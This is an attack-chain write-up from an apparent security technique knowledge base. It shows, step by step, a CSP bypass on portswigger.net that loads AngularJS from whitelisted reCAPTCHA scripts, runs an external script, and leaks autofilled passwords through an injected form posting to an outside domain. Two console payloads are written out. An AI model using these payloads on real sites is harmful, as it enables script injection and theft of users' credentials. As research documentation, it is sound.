

---
tags:
  - csp-bypass
  - xss
  - angularjs
  - recaptcha
  - credential-theft
type: attack_chain
tools:
  - '[[tools/Browser-Developer-Tools]]'
  - '[[tools/Chrome-Password-Manager]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-AngularJS-for-CSP-Bypass]]'
  - '[[procedures/Steal-Nonce-and-Inject-External-Script]]'
  - '[[procedures/Save-Credentials-for-Autofill-Leak]]'
  - '[[procedures/Inject-Form-for-Credential-Submission]]'
step_count: 6
techniques:
  - '[[JavaScript]]'
  - '[[Keylogging]]'
  - '[[Keychain]]'
updated_at: '2025-12-14T17:30:07.592Z'
description: >-
  A multi-stage attack exploiting CSP misconfigurations on PortSwigger.net to
  bypass nonce enforcement using AngularJS from whitelisted reCAPTCHA domains,
  enabling XSS via external script injection, and leaking autofilled credentials
  through missing form-action directive.
skill_level: intermediate
impact_level: high
id: fd424581-2b2c-4db6-a16e-3bd76ca5585f
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Keylogging]]'
  - '[[Keychain]]'
---
# CSP Bypass via AngularJS in reCAPTCHA Scripts Leading to XSS and Credential Theft

Multi-stage attack chain demonstrating CSP bypass on PortSwigger.net by leveraging whitelisted reCAPTCHA domains to load AngularJS, steal nonces for script injection, and exploit missing form-action for credential exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Browser-Developer-Tools]]
- [[tools/Chrome-Password-Manager]]

### Target Environment

- Web platform
- Target: https://portswigger.net/
- Services: reCAPTCHA (Google)
- Tech stack: CSP with nonce-based script-src whitelisting https://www.google.com/recaptcha/ and https://www.gstatic.com/recaptcha/

### Initial Access Requirements

- Browser access to target site
- HTML injection capability (e.g., via console for demo)
- Saved credentials in browser password manager for leak demo

## Detailed Attack Procedures

### Step 1: Load the Target Page

procedure: [[procedures/Inject-AngularJS-for-CSP-Bypass]]

**Objective**: Access the vulnerable page to inspect CSP and prepare for injection.

**Instructions**: Navigate to the target URL in a modern browser like Chrome.

**Expected Output**: Page loads with CSP header including script-src 'https://www.google.com/recaptcha/' and nonce enforcement.

**Success Indicators**:
- Page accessible
- CSP visible in dev tools (Network > Headers)

### Step 2: Open Browser Developer Tools and Inject AngularJS Payload

procedure: [[procedures/Inject-AngularJS-for-CSP-Bypass]]

**Objective**: Load AngularJS from whitelisted reCAPTCHA domain to enable directive-based JS execution.

**Instructions**: Open dev tools (F12), go to Console, and execute the injection command using [[commands/inject-angularjs-iframe]] to set innerHTML of the first div to an iframe srcdoc with ng-app and the AngularJS script load.

```javascript
document.getElementsByTagName("div")[0].innerHTML=`<iframe srcdoc="<div lang=en ng-app=application ng-csp class=ng-scope>\n<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script>\n\n</div>\n">`
```

**Expected Output**: Iframe renders, AngularJS loads from Google domain.

**Success Indicators**:
- No CSP violation on script load
- Angular directives active

### Step 3: Observe Execution of External Script

procedure: [[procedures/Steal-Nonce-and-Inject-External-Script]]

**Objective**: Confirm XSS via nonce theft and external script load.

**Instructions**: Switch to Network tab in dev tools and monitor for the external script request after injection.

**Expected Output**: Network request to //joaxcar.com/hack.js succeeds, alert popup if script contains one.

**Success Indicators**:
- External JS fetched
- Alert or other payload executes

### Step 4: Save Credentials in Browser Password Manager

procedure: [[procedures/Save-Credentials-for-Autofill-Leak]]

**Objective**: Prepare for credential leakage demo by storing fake credentials.

**Instructions**: Visit chrome://password-manager/passwords, add entry for portswigger.net with username/password.

**Expected Output**: Credentials saved and will autofill on forms for the domain.

**Success Indicators**:
- Credentials listed in password manager
- Autofill triggers on login forms

### Step 5: Inject Form Payload via Console

procedure: [[procedures/Inject-Form-for-Credential-Submission]]

**Objective**: Create a malicious form that submits to external domain.

**Instructions**: In console, execute [[commands/inject-malicious-form]] to set innerHTML of first div to the form HTML.

```javascript
document.getElementsByTagName("div")[0].innerHTML=`<form action="//example.com"><input hidden name=user><input hidden type=password name=password><input type=submit></form>`
```

**Expected Output**: Form appears on page with hidden fields.

**Success Indicators**:
- Form injected without CSP block
- Fields visible in Elements tab

### Step 6: Submit the Form

procedure: [[procedures/Inject-Form-for-Credential-Submission]]

**Objective**: Trigger autofill and exfiltrate credentials to arbitrary domain.

**Instructions**: Click the submit button on the injected form.

**Expected Output**: Browser autofills hidden fields with saved credentials and POSTs to //example.com.

**Success Indicators**:
- Network request to external domain with user/password params
- Credentials leaked

## Attack Chain Summary

### Key Achievements

1. Bypassed nonce-based CSP using AngularJS from whitelisted reCAPTCHA scripts
2. Achieved arbitrary JS execution (XSS) by stealing and reusing nonce
3. Exfiltrated autofilled credentials via missing form-action directive

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Keylogging]]
- [[Keychain]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
